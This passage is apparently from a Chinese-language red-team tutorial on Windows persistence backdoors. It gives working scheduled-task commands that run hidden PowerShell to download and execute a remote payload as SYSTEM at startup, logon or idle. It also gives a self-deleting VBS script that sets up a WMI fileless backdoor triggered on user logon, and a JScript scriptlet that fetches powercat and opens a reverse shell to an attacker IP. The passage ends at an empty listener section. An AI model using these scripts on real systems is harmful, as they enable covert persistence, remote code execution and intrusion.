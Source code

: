 ### [](#13-%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E5%90%8E%E9%97%A8)1.3 计划任务后门

-   schtasks
    -   /Create 创建新任务。
    -   /Delete 删除计划任务。
    -   /Query 显示所有计划任务。
    -   /Change 更改计划任务属性。
    -   /Run 按需运行计划任务。
    -   /End 中止当前正在运行的计划任务。
    -   /ShowSid 显示与计划的任务名称相应的安全标识符。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```powershell<br># schtasks 命令<br># 每天晚上 03:30 定时执行<br>schtasks /create /tn "TimedTask1" /tr C:\Users\Administrator\Desktop\TimedTask\Run.bat /sc DAILY /st 03:30 <br># statement A<br><br># 查询创建的任务<br>schtasks /query /tn TimedTask1 /v<br><br># 立即运行创建的任务<br>schtasks /run /tn TimedTask1<br><br># 删除任务<br>schtasks /delete /tn TimedTask1<br>``` |

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```powershell<br>#(X64) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br> <br>#(X64) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br> <br>#(X86) - On User Login<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onlogon /ru System<br>  <br>#(X86) - On System Start<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onstart /ru System<br>  <br>#(X86) - On User Idle (30mins)<br>schtasks /create /tn PentestLab /tr "c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://10.0.2.21:8080/ZPWLywg'''))'" /sc onidle /i 30<br>``` |

### [](#14-wmi-%E6%97%A0%E6%96%87%E4%BB%B6%E5%90%8E%E9%97%A8)1.4 wmi 无文件后门

evil3.vbs -> 恶意 VBS 脚本。创建事件过滤器，捕获账户成功登陆的事件；创建活动脚本事件消费者，捕获到事件后执行远程脚本 pnc.js;绑定过滤器和消费者。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```fallback<br>nslink="winmgmts:\\.\root\subscription:"<br><br>qstr="select * from __InstanceCreationEvent within 5 "        '每5秒查询一次“实例创建事件”'<br>qstr=qstr&"where targetinstance isa 'win32_NTLogEvent' and "<br>qstr=qstr&"targetinstance.EventCode='4624' "                  '实例名是win32_NTLogEvent'<br><br><br>set evtflt=getobject(nslink&"__EventFilter").spawninstance_   '创建事件过滤器'<br>evtflt.name="filtP1"                                          '定义过滤器的名字'<br>evtflt.EventNameSpace="root\cimv2"<br>evtflt.query=qstr                                             '定义查询语句'<br>evtflt.querylanguage="wql"                                    '定义查询语言(只能是wql)'<br>set fltpath=evtflt.put_                                       '注册过滤器，返回其链接'<br><br>set asec=getobject(nslink&"ActiveScriptEventConsumer").spawninstance_   '创建“活动脚本事件消费者”'<br>asec.name="consP1"                                                      '定义消费者的名字'<br>asec.scriptingengine="JScript"                                          '定义脚本语言<br>asec.ScriptText="GetObject(""script:http://192.168.41.1:8080/pnc.js"")"<br>set asecpath=asec.put_                                                  '注册消费者，返回其链接'<br><br>set fcbnd=getobject(nslink&"__FilterToConsumerBinding").spawninstance_  '创建过滤器和消费者的绑定'<br>fcbnd.filter=fltpath.path                                               '指定过滤器'<br>fcbnd.consumer=asecpath.path                                            '指定消费者'<br>fcbnd.put_                                                              '执行绑定'<br><br>dim fso<br>set fso = CreateObject("Scripting.FileSystemObject")<br>evilname=left(wscript.scriptfullname,instrrev(wscript.scriptfullname,"\")) <br>evilname=evilname& fso.GetFile(Wscript.scriptfullname).name<br>fso.DeleteFile(evilname) 'vbs删除自己<br>``` |

pnc.js -> 服务端恶意脚本。下载 powercat.ps1，并使用其返回 shell。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```javascript<br><?xml version="1.0"?><br><br><package><br><component id="testCalc"><br><br><script language="JScript"><br><br>var r = new ActiveXObject("WScript.Shell").Run("powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.41.1:8080/powercat-master/powercat.ps1');powercat -c 192.168.41.1 -p 6999 -e cmd"); <br><br></script><br><br></component><br></package><br>``` |

shell\_server.py -> 服务端监听 shell 的脚本。

|     |     |     |
| --- | --- | --- |
